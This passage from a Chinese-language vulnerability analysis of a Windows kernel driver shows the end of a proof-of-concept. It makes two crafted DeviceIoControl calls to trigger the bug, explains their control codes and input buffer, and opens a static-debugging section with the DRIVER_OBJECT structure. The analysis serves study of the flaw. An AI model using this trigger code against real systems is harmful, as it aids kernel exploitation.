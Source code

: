 ```

    // 第一次通信
    DeviceIoControl((HANDLE)s, 0x1207F, (LPVOID)inbuf1, 0x30, outBuf, 0, &bytesRet, NULL);

    DWORD inbuf2[100];
    memset(inbuf2, 0, sizeof(inbuf2));
    inbuf2[0] = 1;
    inbuf2[1] = 0x0AAAAAAA;
    // 第二次通信
    DeviceIoControl((HANDLE)s, 0x120C3, (LPVOID)inbuf2, 0x18, outBuf, 0, &bytesRet, NULL);
}
```  
  
  
触发漏洞的关键就是两次调用DeviceIoControl函数来实现用户层和内核层的I/O通信，函数定义如下，其中第二个参数为控制码，第三个参数为传入内核从的输入数据，这两个参数也是触发此次漏洞的关键。  
```
BOOL WINAPI DeviceIoControl(HANDLE hDevice,
                            DWORD dwIoControlCode,
                            LPVOID lpInBuffer,
                            DWORD nInBufferSize,
                            LPVOID lpOutBuffer,
                            DWORD nOutBufferSize,
                            LPDWORD lpBytesReturned,
                            LPOVERLAPPED lpOverlapped);
```  
  
  
**2.静态调试**  
  
  
对于每一个驱动，在内核中都会有一个对应的DRIVER_OBJECT对象，该结构体定义如下：  
```
#define IRP_MJ_MAXIMUM_FUNCTION         0x1b

typedef struct _DRIVER_OBJECT {
    CSHORT Type;
    CSHORT Size;
    PDEVICE_OBJECT DeviceObject;
    ULONG Flags;
    PVOID DriverStart;
    ULONG DriverSize;
    PVOID DriverSection;
    PDRIVER_EXTENSION DriverExtension;
    UNICODE_STRING DriverName;
    PUNICODE_STRING HardwareDatabase;
    PFAST_IO_DISPATCH FastIoDispatch;
    PDRIVER_INITIALIZE DriverInit;
    PDRIVER_STARTIO DriverStartIo;
    PDRIVER_UNLOAD DriverUnload;
    PDRIVER_DISPATCH MajorFunction[IRP_MJ_MAXIMUM_FUNCTION + 1];
} DRIVER_OBJECT;
typedef struct _DRIVER_OBJECT *PDRIVER_OBJECT;
```  
  